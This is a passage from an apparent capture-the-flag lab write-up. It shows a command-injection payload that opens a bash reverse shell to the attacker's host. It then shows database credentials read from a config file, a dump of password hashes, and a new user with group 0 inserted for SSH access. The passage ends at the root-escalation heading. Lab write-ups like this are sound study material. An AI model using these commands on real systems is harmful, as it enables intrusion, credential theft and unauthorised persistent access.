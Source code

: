 That means we can run any system command and start a reverse shell:
```
ip=10.10.14.6;bash -i >& /dev/tcp/10.10.14.6/9001 0>&1&id=12&action=deny
```

After URL-encoding and sending the request, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/admin/pages_ is the file _actions.php_ that has credentials for a database:
```
$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
```

This is a **PostgreSQL database**:
```
psql -h 127.0.0.1 -U unixusrmgr unix
```

Showing the tables:
```
unix=> \d
```
```
public | group_id     | sequence | postgres
public | group_table  | table    | postgres
public | passwd_table | table    | postgres
public | shadow_table | table    | postgres
public | user_id      | sequence | postgres
public | usergroups   | table    | postgres
```

Information in _passwd_table_:
```
unix=> select * from passwd_table;
```
```
tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
testuser | $1$puhoF.8o$PuGXbL/B8pp/fZMjQSAaX0 | 2020 | 1001 |       | /var/jail/home | /bin/bash
```

Creating a new user:
```
INSERT INTO passwd_table (username, passwd, gid, homedir) values ('newuser', '$1$61vWy0S8$fDRliAv0Lnr6lf.z9qD1j1', 0, '/');
```

> The password hash was created with `openssl passwd -1 newpass123`

The new user is now able to SSH into the box:
```
ssh newuser@10.10.10.113
```

### Privilege Escalation to root
